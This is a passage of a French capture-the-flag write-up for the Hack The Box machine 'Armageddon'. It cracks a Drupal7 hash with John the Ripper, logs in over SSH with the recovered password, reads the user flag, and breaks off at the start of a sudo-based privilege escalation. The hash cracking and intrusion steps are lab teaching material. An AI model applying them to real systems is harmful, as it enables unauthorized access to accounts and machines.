 Nous avons maintenant en notre possession le nom de l'utilisateur `brucetherealadmin` ainsi que son mot de passe hashé.

Stockons le mot de passe dans un fichier.

![Screenshot_20210405_200732](Armageddon.assets/Screenshot_20210405_200732.png)

Nous allons utiliser `john` afin de craquer le mot de passe, il devrait le trouver si le mot de passe se trouve dans la wordlist `rockyou.txt`.

> john mdp

```
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
booboo           (?)
1g 0:00:00:00 DONE 2/3 (2021-04-05 20:09) 2.777g/s 466.6p/s 466.6c/s 466.6C/s 111111..cindy
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

John a trouvé le type du hash `Drupal7`, ainsi que le mot de passe `booboo`.

Connectons-nous via ssh sur l'utilisateur `brucetherealadmin`.

> ssh brucetherealadmin@10.10.10.233
>

```
[brucetherealadmin@armageddon ~]$ whoami
brucetherealadmin
```

Nous avons maintenant le flag `user.txt`.

> cat user.txt 

```
[brucetherealadmin@armageddon ~]$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXX
```



<p align= "left">
 <h6 align= "left"><U>2.Root</U></h6>
</p>
En faisant un `sudo -l` on peut voir que cet utilisateur possède les droits root sur le binaire `snap install`.

> sudo -l
